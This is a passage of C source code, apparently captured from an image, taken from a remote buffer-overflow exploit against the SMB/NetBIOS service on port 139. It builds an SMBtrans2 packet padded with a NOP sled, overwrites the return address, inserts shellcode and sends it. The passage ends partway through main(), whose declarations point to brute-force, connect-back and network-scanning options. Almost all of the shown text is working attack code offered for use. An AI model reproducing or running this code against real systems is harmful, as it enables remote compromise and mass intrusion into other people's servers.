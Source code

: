             memset(buffer, 0x00, sizeof(buffer));

            netbiosheader   = (NETBIOS_HEADER *)buffer;
            smbheader       = (SMB_HEADER *)(buffer + sizeof(NETBIOS_HEADER));

            netbiosheader->type             = 0x00;         /* session message */
            netbiosheader->flags            = 0x04;
            netbiosheader->length           = htons(2096);

            smbheader->protocol[0]          = 0xFF;
            smbheader->protocol[1]          = 'S';
            smbheader->protocol[2]          = 'M';
            smbheader->protocol[3]          = 'B';
            smbheader->command              = 0x32;         /* SMBtrans2 */
            smbheader->tid                  = 0x01;
            smbheader->uid                  = 100;

            memset(buffer + sizeof(NETBIOS_HEADER) + sizeof(SMB_HEADER) + sizeof(exploit_data), 0x90, 3000);

            for (i = 0; i < 4 * 24; i += 4)
                    memcpy(buffer + 1131 + i, &dummy, 4);

            memcpy(buffer + 1127, &ret,      4);

            memcpy(buffer + sizeof(NETBIOS_HEADER) + sizeof(SMB_HEADER),
                            exploit_data, sizeof(exploit_data) - 1);

            memcpy(buffer + 1100 - strlen(shellcode), shellcode, strlen(shellcode));

            if(write_timer(sock, 3) == 1) {
                    if (send(sock, buffer, sizeof(buffer) - 1, 0) < 0) return -1;
                    return 0;
            }

            return -1;
    }


    int main (int argc,char *argv[])
    {
            char *shellcode = NULL;
            char scan_ip[256];

            int brute       = -1;
            int connectback = 0;
            int force       = 0;
            int i           = 0;
            int ip1         = 0;
            int ip2         = 0;
            int ip3         = 0;
            int ip4         = 0;
            int opt         = 0;
            int port        = 139;
            int random      = 0;
            int scan        = 0;
            int sock        = 0;
            int sock2       = 0;
            int status      = 0;
            int type        = 0;
            int verbose     = 0;
